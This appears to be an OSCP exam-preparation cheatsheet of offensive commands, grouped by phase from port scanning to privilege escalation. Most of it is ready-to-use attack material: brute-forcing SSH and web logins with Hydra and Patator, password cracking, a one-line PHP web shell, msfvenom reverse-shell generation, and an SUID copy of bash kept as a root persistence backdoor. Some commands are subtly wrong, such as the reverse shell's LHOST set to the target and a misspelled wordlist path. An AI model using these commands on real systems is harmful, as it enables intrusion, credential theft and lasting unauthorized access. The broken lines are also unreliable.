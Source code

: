 ## PWK/OSCP Cheatsheet
**Author:** Victor Fernandez III, http://github.com/cyberphor

### Reconnaissance
#### Ports
```bash
sudo nmap $TARGET -sS -sU -oN scans/$TARGET-nmap-initial
sudo nmap $TARGET -sS -sU -p- -oN scans/$TARGET-nmap-complete
```

### Enumeration
#### Service Versions
```bash
sudo nmap $TARGET -sV -sC $(print-open-ports-from-nmap-scan scans/$NAME-nmap-complete) -oN scans/$NAME-nmap-versions
```

#### Operating System
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os
```

#### FTP
```bash
cd loot
touch README.too # create a file
ftp $TARGET 21 # login using anonymous:anonymous
put README.too # upload file created above (i.e. check if we have write privileges)
ls
binary 
get file.txt # download a file (i.e. check if we have read privileges)
mget * # download everything
exit
```

#### SSH
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt  ssh://10.11.12.13
```

#### SMTP
```bash
sudo nmap $TARGET -p25 --script smtp-commands -oN scans/$NAME-nmap-scripts-smtp-commands
```

```bash
sudo nmap $TARGET -p25 --script smtp-enum-users --script-args smtp-enum-users.methods={VRFY,EXPN,RCPT} -oN scans/$NAME-nmap-scripts-smtp-enum-users
```

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $TARGET
```

Automated enumeration of exploitable SMTP vulnerabilities.
```bash
sudo nmap $TARGET -p25 --script smtp-vuln* -oN scans/mailman-nmap-scripts-smtp-vuln
# replace the lines above with the actual scan results
```

#### HTTP
```bash
sudo nmap $TARGET -p80 --script http-shellshock -oN scans/$NAME-nmap-scripts-http-shellshock-80
```

```bash
dirb http://$TARGET:80 /usr/share/wordlists/dirb/big.txt -z10 -o scans/$NAME-dirb-big-80
```

```bash
dirsearch -u $TARGET:$PORT -o $FULLPATH/$NAME-dirsearch-80
```

```bash
nikto -h $TARGET -p $PORT -T 2 -Format txt -o scans/$NAME-nikto-misconfig-80
```

#### RPC
```bash
rpcclient -U '' $TARGET
srvinfo
netshareenum
```

#### NetBIOS
```bash
nbtscan $TARGET
```

#### SMB
The following SMB shares were discovered using Smbclient.
```bash
smbclient -L $TARGET
```

The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET
```

Download files.
```bash
cd loot
smbclient \\\\$TARGET\\$SHARE
prompt
mget *
```

```bash
# check if vulnerable to EternalBlue
sudo nmap $TARGET -p445 --script smb-vuln-ms17-010 -oN scans/$NAME-nmap-scripts-smb-vuln-ms17-010
```

The target is NOT vulnerable to SambaCry.
```bash
# check if vulnerable to SambaCry
sudo nmap $TARGET -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -oN scans/$NAME-nmap-scripts-smb-vuln-cve-2017-7494
```

#### SQL
```bash
mysql -u $USER -h $TARGET
```

#### RDP
```bash
sudo nmap $TARGET -p3389 --script rdp-ntlm-info -oN scans/$NAME-nmap-scripts-rdp-ntlm-info
```

```bash
rdesktop -u administrator $TARGET
```

#### Postgres
```bash
psql -U postgres -p 5437 -h $TARGET # postgres:postgres
SELECT pg_ls_dir('/');
```

### Gaining Access
#### Password Guessing  
Default Credentials
```bash
# anonymous:anonymous
# guest:guest
# admin:admin
# admin:adminadmin
```

Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

Patator
```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

Hashcat
```hash
# modes - SHA256: 1400
# attacks - Dictionary: 0
hashcat -m $MODE -a $ATTACK /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat -m 1400 -a 0 /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
```

John the Ripper
```bash
# cracking a RAR file
rar2john backup.rar > hash.txt
john --format=rar hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Remote File Inclusion
```bash
# find a way to upload a PHP command shell
vim cmd.php
<?php echo shell_exec($_GET['cmd']); ?>
```

#### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TARGET LPORT=$PORT -f elf -o rshell.elf
```

### Maintaining Access
#### Linux Privilege Escalation
```bash
whoami
uname -a
cat /etc/passwd
cat /etc/crontab
find / -perm -u=s -type f 2> /dev/null # files with SUID-bit set
find /etc -type f -perm /g=w -exec ls -l {} + 2> /dev/null # files my group can edit
ps aux | grep -v "\[" | grep root
dpkg -l # debian
rpm -qa # red hat
pacman -Qe # arch linux
```

#### Windows Privilege Escalation
```bash
whoami
whoami /priv
net user
systeminfo
dir c:\
wmic service get name,startname
cd "c:\program files"
cd "c:\program files (x86)"
wmic service get name,pathname,startname | findstr "Program Files"
cacls *.exe
```

#### Persistence  
Rootbash (Credit: Tib3rius)
```bash
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```

